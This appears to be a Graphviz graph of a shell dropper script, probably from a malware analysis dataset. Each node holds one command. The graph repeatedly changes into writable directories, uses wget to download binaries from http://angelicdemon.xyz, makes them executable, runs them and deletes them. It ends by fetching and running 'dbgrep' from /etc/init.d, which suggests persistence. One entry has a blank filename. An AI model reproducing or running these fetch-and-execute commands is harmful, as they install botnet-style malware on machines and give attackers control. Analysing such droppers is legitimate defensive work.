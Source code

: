 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://angelicdemon.xyz/lungkassss "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungkassss "];
12 -> 14 [label=";,"];
14 [label="./lungkassss "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungkassss "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://angelicdemon.xyz/mangossss "];
28 -> 30 [label=";,"];
30 [label="chmod +x mangossss "];
30 -> 32 [label=";,"];
32 [label="./mangossss "];
32 -> 34 [label=";,"];
34 [label="rm -rf mangossss "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://angelicdemon.xyz/opengglss "];
46 -> 48 [label=";,"];
48 [label="chmod +x opengglss "];
48 -> 50 [label=";,"];
50 [label="./opengglss "];
50 -> 52 [label=";,"];
52 [label="rm -rf opengglss "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://angelicdemon.xyz/vastss "];
64 -> 66 [label=";,"];
66 [label="chmod +x vastss "];
66 -> 68 [label=";,"];
68 [label="./vastss "];
68 -> 70 [label=";,"];
70 [label="rm -rf vastss "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://angelicdemon.xyz/greypssss "];
82 -> 84 [label=";,"];
84 [label="chmod +x greypssss "];
84 -> 86 [label=";,"];
86 [label="./greypssss "];
86 -> 88 [label=";,"];
88 [label="rm -rf greypssss "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://angelicdemon.xyz/kuhamosss "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamosss "];
102 -> 104 [label=";,"];
104 [label="./kuhamosss "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamosss "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://angelicdemon.xyz/marcossss "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcossss "];
120 -> 122 [label=";,"];
122 [label="./marcossss "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcossss "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://angelicdemon.xyz/chikossss "];
136 -> 138 [label=";,"];
138 [label="chmod +x chikossss "];
138 -> 140 [label=";,"];
140 [label="./chikossss "];
140 -> 142 [label=";,"];
142 [label="rm -rf chikossss "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://angelicdemon.xyz/pchikossss "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchikossss "];
156 -> 158 [label=";,"];
158 [label="./pchikossss "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchikossss "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://angelicdemon.xyz/cosss "];
172 -> 174 [label=";,"];
174 [label="chmod +x cosss "];
174 -> 176 [label=";,"];
176 [label="./cosss "];
176 -> 178 [label=";,"];
178 [label="rm -rf cosss "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://angelicdemon.xyz/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://angelicdemon.xyz/facebooks3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebooks3 "];
210 -> 212 [label=";,"];
212 [label="./facebooks3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebooks3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://angelicdemon.xyz/netdeldssss "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdeldssss "];
228 -> 230 [label=";,"];
230 [label="./netdeldssss "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdeldssss "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://angelicdemon.xyz/dbgrep "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 dbgrep "];
238 -> 240 [label=";,"];
240 [label="./dbgrep "];
240 -> 241 [label=";,"];
}
